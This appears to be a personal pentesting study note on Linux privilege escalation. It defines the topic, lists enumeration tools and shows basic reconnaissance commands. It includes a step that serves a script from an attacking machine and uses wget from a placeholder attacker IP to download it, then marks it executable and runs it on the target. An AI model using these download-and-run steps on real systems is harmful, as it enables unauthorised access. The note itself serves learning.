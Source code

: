 ### General Notes

Going from a lower permission account to a higher permission one.
- Exploiting a vulnerability, design flaw, or configuration oversight in an OS or application to gain access to resources.

> Gives you admin access and privileges to:
1. Reset passwords.
2. Bypass access controls.
3. Edit software configurations.
4. Enabling persistence. [[Backdoors]].
5. Changing the privilege of existing users.
6. Execute any admin command.

> [GTFOBins](https://gtfobins.github.io/) used to escalate privileges based on binaries available.

---
### Automated Enumeration Tools

* [LinPeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS).
* [LinEnum](https://github.com/rebootuser/LinEnum).
* [LES](https://github.com/mzet-/linux-exploit-suggester).
* [Linux Smart Enumeration](https://github.com/diego-treitos/linux-smart-enumeration).
* [Linux Priv Checker](https://github.com/linted/linuxprivchecker).

> To send any of these scripts to a target machine, spawn a python server on the attacking machine where the script is:
```bash
python -m http.server 80
```

> Then `wget` the script.
```shell
wget http://<attacker-ip>:80/<scriptname.sh>
```

> Before running the script, give it first execute permissions then run it.

```shell
chmod +x <scriptname.sh>
./scriptname.sh
```

#### Enumeration

##### Hostname
> The hostname of a machine can give useful information about its role within the network.
```bash
hostname
```
##### Kernel Information
> The command gives us information regarding the kernel to be used to search for vulnerabilities.
```shell
uname -a
```
##### Proc filesystem (procfs)
> The proc fileststem (procfs) provides about the system's processes.
> Looking at `/proc/version` may give information on the kernel version and if compilers are installed.
```shell
cat /proc/version
```
##### Operating System Information
> Looking at the `/etc/issue` gives information about the operating system.
```shell
cat /etc/issue
```